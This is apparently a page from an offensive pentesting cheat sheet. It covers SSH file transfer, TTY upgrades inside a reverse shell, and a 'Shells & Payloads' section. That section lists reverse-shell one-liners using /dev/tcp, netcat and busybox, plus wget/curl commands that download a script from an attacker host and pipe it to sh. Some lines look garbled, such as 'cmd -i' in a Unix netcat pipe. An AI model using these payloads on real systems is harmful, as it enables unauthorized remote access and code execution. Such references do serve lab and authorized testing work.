 1. Enable SSH server

   ```bash
   sudo systemctl enable ssh
   ```

2. Start the server

   ```
   sudo systemctl start ssh
   ```

4. Download on your machine

   ```bash
   scp user@remotehost:[FILE_PATH] [OUT]
   ```

To upload:

```bash
scp [FILE] user@targethost:[OUTPUT LOCATION]
```

## Shells & Payloads

### TTY upgrade

- General method (if python is not installed)

```bash
script -qc /bin/bash /dev/null
```

- Python method (try different python versions)

```bash
# In reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'	#usually good enough

# Follow-Up
$ CTRL+Z -> stty raw -echo; fg -> reset -> export TERM=scr
# Type 'xterm' if it asks for teminal type
```

### Bash / Netcat payloads

- `sh -i >& /dev/tcp/[KALI_IP]/[PORT] 0>&1`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|cmd -i 2>&1|nc [KALI_IP] [PORT] >/tmp/f` 
- `busybox nc [KALI_IP] [PORT] -e sh`

### CURL / WGET

- `httpserv()`
- `wget -q -O - http://[KALI_IP]/[PAYLOAD.SH] | sh`
- `curl -s http://[KALI_IP]/[PAYLOAD.SH] | sh`

### SSH Hijacking (offline)
